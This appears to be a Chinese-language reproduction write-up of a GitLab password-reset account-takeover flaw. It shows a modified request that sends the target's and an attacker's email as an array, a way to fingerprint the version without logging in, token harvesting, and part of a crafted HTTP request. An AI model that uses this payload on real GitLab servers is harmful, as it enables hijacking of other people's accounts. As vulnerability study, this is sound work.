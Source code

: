 ## 复现过程

> 这里被找回邮箱为个人注册邮箱地址，真实环境中需先获取目标邮箱地址

访问找回密码页面：`/users/password/new`

![]()

填写被找回邮箱地址，然后点击抓包

![]()

修改请求包为：`user[email][]=目标邮箱地址&user[email][]=攻击者邮箱地址`![]()

成功复现![]()

其实这里看到收件人邮箱已经变为两个了

##

## 半自动化

关于自动化主要有两个坑点，第一是如何获取版本号，第二是在找回密码的阶段会需要有一个`uauthenticity_token`

下面针对上面2点提出解决办法：

 **1、获取版本**

公开的一些获取版本的办法大多是需要鉴权的，这里分享一种不需要登录的办法

访问`/assets/webpack/manifest.json`

![]()

获取hash值去GitHub对比版本号  
https://github.com/righel/gitlab-version-nse/blob/main/gitlab_hashes.json

![]()

可以发现版本是`gitlab-ce 16.5.0`

对比发现是正确的![]()

 **2、authenticity_token获取**

访问找回密码界面`/users/password/new`

查看源代码搜索`authenticity_token`即可

![]()

构造http请求包

    
    
    POST /users/password HTTP/1.1  
    Host: xx.com  
    Origin: http://xx.com  
    Content-Type: application/x-www-form-urlencoded  
    Referer: http://xx.com/users/password/new8  
    Cookie: preferred_language=zh_CN; _gitlab_session=e00664e028c369cdd6dff19f6d7b76bf  
      